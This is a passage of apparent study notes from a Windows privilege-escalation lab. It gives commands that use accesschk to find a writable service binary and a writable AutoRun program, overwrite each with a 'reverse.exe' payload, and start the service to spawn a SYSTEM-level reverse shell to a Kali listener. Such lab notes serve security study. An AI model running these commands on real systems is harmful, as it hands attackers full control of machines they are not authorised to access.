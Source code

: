        `C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"`
        
        Copy the reverse.exe executable you created and replace the filepermservice.exe with it:
        
        `copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`
        
        Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
        
        `net start filepermsvc`
        

# Registry

- Registry
    
    [AccessChk - Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)
    
    - AutoRuns
        
        Query the registry for AutoRun executables:
        
        `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
        
        Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:
        
        `C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\"`
        
        ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%2016.png)
        
        Copy the reverse.exe executable you created and overwrite the AutoRun executable with it:
        
        `mv program.exe program_backup.exe`
        
        `upload /home/kali/Desktop/program.exe`
        
        `copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y`
        